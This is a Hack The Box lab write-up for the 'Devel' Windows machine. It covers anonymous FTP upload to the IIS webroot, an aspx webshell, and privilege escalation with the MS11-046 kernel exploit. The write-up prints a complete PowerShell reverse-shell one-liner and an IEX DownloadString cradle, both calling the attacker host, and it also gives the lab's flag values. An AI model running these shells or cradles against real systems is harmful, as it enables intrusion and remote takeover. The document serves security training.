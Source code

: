 # Devel
>Author : Xyan1d3
>Date : 27th June 2021
>IP : 10.10.10.5
>OS : Windows
>Difficulty : Easy
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Sun Jun 27 23:57:10 2021 as: nmap -sC -sV -v -oN nmap/devel 10.10.10.5
Nmap scan report for devel.htb (10.10.10.5)
Host is up (0.077s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
We see that this is infact a windows machine running `IIS 7.5`, Which can be used to find out the OS its running as the different versions of windows uses different versions of `IIS`. But, Here we have some contradictory data stating it `IIS 7.0` and `IIS 7.5` together.

Therefore, We may do a simple `curl` and check the headers sent to us in the browsers.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.5]─[~/htb/devel]
└──╼ # curl --head 10.10.10.5
HTTP/1.1 200 OK
Content-Length: 689
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5    <------ IIS Version
X-Powered-By: ASP.NET
Date: Sun, 27 Jun 2021 18:43:18 GMT
```
We find out that the OS running here should be `Windows Server 2008 R2`.
![[Pasted image 20210628002030.png]]

## FTP Enumeration
We find out that we have `anonymous` ftp login.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.5]─[~/htb/devel]
└──╼ # ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

We login to the ftp server using `anonymous` login and find out that the files there are the webroot files of the webserver.

We could try to upload files there. As, If we're able to upload files there then we would be able to execute the file from the website.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.5]─[~/htb/devel]
└──╼ # ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put magisk.html
local: magisk.html remote: magisk.html
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
57 bytes sent in 0.00 secs (639.8168 kB/s)
```

We are successfully able to put files inside the ftp folder. Now, We need to check if we can visit our file on the website.

And, Hell Yeah we can access the file from the webserver.
![[Pasted image 20210628003325.png]]
We all know where all this is going...

# Initial FootHold
We could now try to upload an `aspx` reverse shell and try to get a reverse shell from the box.
We upload the `/usr/share/webshells/aspx/cmdasp.aspx` present on the default installation of kali.
![[Pasted image 20210628005411.png]]

We could now use Nishang powershell reverse shell and host it on the box. And, Executing it from the webshell to get a proper reverse shell.
We will be using `/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1` from the pocket full of tools.

We will be needing to uncomment the one we want to use and change the attacker IP and Port and point it to our box. Also, Here We are using the longer reverse shell as the longer the better :P (It gives the prompt to be honest)
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.5",8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

We issue a powershell downloadstring and pass it to IEX which is Invoke-Expression.
```powershell
powershell IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/rev.ps1')
```

It is powershell version independent and will work on any older or newer powershell versions.

Hell Yeah !!! We recieve a shell as the `iis apppool\web` user. Essentially `www-data` for windows.
![[Pasted image 20210628010118.png]]

**Alternatively we could have generated a malicious exe file using `msfvenom` and uploading it and executing it on `cmd.exe` or `nc64.exe`. But, I don't like to touch files on the machines disk until its very critical.**

# Root Escalation
We do a simple `systeminfo` to find out what is the exact OS fingerprint of the box.
```python
PS C:\> systeminfo
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ??
System Boot Time:          27/6/2021, 3:34:02 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
```

And Apparently, Our guess is wrong as it is a `Windows 7 Enterprise build 7600` and not a `Windows Server 2008 R2`.

The Box is vulnerable to `MS11-046` which on exploitation will elevate our privilege's to `NT Authority/SYSTEM`. But , Inorder to pull off this exploit we will need a regular shell like a netcat shell as it will attempt to spawn a new `cmd.exe` with the elevated privilege.

So, We transfer `nc.exe` strictly `32-Bit` Version which will be nessessary as the box is `32-Bit`, Using anyway we want `Invoke-WebRequest`, `Certutil.exe` or `smbserver.py`.

We use the `MS11-046` and execute it directly from our hosted `smbserver.py`.
Source : https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe

The shell is escalated to  `NT Authority/SYSTEM`.
![[Pasted image 20210628020318.png]]


## User Flag
We could now get the `user.txt` from the `C:\Users\babis\Desktop`.
```go
c:\windows\system32\inetsrv>\\10.10.14.5\magisk\ms11-046.exe
\\10.10.14.5\magisk\ms11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system

c:\Windows\System32>cd C:\Users\babis\Desktop\
cd C:\Users\babis\Desktop\

C:\Users\babis\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of C:\Users\babis\Desktop

18/03/2017  02:14     <DIR>          .
18/03/2017  02:14     <DIR>          ..
18/03/2017  02:18                 32 user.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  22.213.320.704 bytes free
C:\Users\babis\Desktop>type user.txt.txt
type user.txt.txt
9ecdd6a3aedf24b41562fea70f4cb3e8
```

## Root Flag
As, We are now essentially the highest level user of the box i.e. `NT Authority/SYSTEM` Hence, We could visit the `C:\Users\Administrator\Desktop` and can get the root flag.

```go
C:\Users\babis\Desktop>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of C:\Users\Administrator\Desktop

14/01/2021  12:42     <DIR>          .
14/01/2021  12:42     <DIR>          ..
18/03/2017  02:17                 32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  22.211.674.112 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
e621a0b5041708797c4fc4728bc72b4b
```